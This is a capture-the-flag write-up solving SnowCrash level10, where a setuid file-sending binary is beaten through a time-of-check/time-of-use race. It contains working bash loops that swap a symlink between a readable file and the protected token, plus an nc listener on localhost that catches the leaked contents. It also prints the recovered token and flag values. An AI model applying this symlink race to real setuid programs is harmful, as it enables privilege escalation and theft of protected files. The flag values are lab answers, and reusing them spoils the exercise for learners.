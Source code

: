 
## level10
Upon enumeration, looks like this has similar mechanism with the last level, with another layer of complexity

```
level10@SnowCrash:~$ ls
level10  token
level10@SnowCrash:~$ file *
level10: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf7e21fb68568fa57d6317d0535b97d9fca66f841, not stripped
token:   regular file, no read permission
level10@SnowCrash:~$ ./level10 ^C
level10@SnowCrash:~$ ltrace ./level10 asdf
__libc_start_main(0x80486d4, 2, 0xbffff7e4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)                = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
level10@SnowCrash:~$ ./level10 asdf
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 ./level10 asdf
```

I wanted to get to know more about this mechanism so I opened another terminal to act as my server using ` nc -l 0.0.0.0 6969`

In my original terminal, I sent a test file to `127.0.0.1` to see its behaviour

Original terminal:
```
level10@SnowCrash:/dev/shm$ ./level10 script.py 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:/dev/shm$
```

Other terminal:
```
level10@SnowCrash:~$ nc -l 0.0.0.0 6969
.*( )*.
bytes = [102,52,107,109,109,54,112,124,61,130,127,112,130,110,131,130,68,66,131,68,117,123,127,140,137] # get from od -t u1
for x, byte in enumerate(bytes) :
    bytes[x] -= x
print(''.join(chr(i) for i in bytes))

level10@SnowCrash:~$
```

Looks like the file gets sent in plaintext, now I gotta find a way to access the file to get it sent through. The ltrace shows this line before the file gets read, so I went to see what it is about in the man page.
```
access("token", R_OK)                   = -1 EACCES (Permission denied)
```

as it turns out, there is a warning about a security hole
>  Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
    
This means that we can change the file behaviour after access has been called, and before open has been called. We need to change the file in such a way that it passes the first `access` call and opens the `token` file on the `open` call.

And since we couldnt do anything to stop or pause the execution externally, we will need to do the file operation alot of times in succession, hoping that the timing reaches our favour.

The operations which we will do to the file is to 
1. create a link to a readable file 
2. remove the link
3. create a link to the non readable file
4. remove the link

Hopefully, when we continiously run the application in another thread, the `access` will run before step 2, and open will run before step 4.

We made a script to do the linking operations
```bash=
echo stuff > /dev/shm/stuff
while true
do
ln -s /dev/shm/stuff /tmp/link
rm -f /tmp/link
ln -s /home/user/level10/token /tmp/link
rm -f /tmp/link
done
```

Also another script to run the program in a loop
```bash=
while true
do
/home/user/level10/level10 /tmp/link 127.0.0.1
done
```

The following link will start a local server that listens to a port and restarts everytime a connection closes `nc -lk 0.0.0.0 6969`

Do the following in order : 
1. Run the server
2. Run the linking script
3. Run the program loop

You should able to see the value of token sometimes in the server output. 

The value of the token is `woupa2yuojeeaaed06riuj63c`, which is the password for flag10. The `getflag` output for that user is `feulo4b72j7edeahuete3no7c`
